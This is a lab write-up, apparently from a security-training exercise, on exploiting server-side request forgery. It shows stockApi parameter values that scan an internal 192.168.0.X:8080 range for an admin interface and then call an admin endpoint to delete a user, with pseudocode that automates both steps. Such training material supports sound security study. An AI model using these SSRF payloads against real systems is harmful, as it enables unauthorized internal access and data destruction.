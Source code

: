 ### Lab: Basic SSRF against another back-end system

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, use the stock check functionality to scan the internal 192.168.0.X range for an admin interface on port 8080, then use it to delete the user carlos.

_____

Analysis and Exploit:

1. Intercept the stock check request and send to **[BURP-REPEATER]**
    - POST **/product/stock**
    - stockApi : http://192.168.0.1:8080/product/stock/check?productId=1&storeId=1
2. Change the _stockApi_ value and use **[BURP-INTRUDER]** to find the admin interface (IP in the range 192.168.0.0/24)
    - stockApi : http://192.168.0.X:8080/admin
3. Once found the IP address (response with code 200), reshape stockApi param and delete the user carlos
    - stockApi: http://192.168.0.X:8080/admin/delete?username=carlos


_____

Script:

1. Scan the local subnet and stops when receives code 200 | POST **/product/stock** | params: stockApi
    - stockApi: http://192.168.0.X:8080/admin
    - for loop from 2 to 254
        - break when reponse.status code == 200
2. Delete user carlos | POST **/product/stock** | params: stockApi
    - stockApi: http://192.168.0.X:8080/admin/delete?username=carlos
    - if "User deleted successfully"not in response, error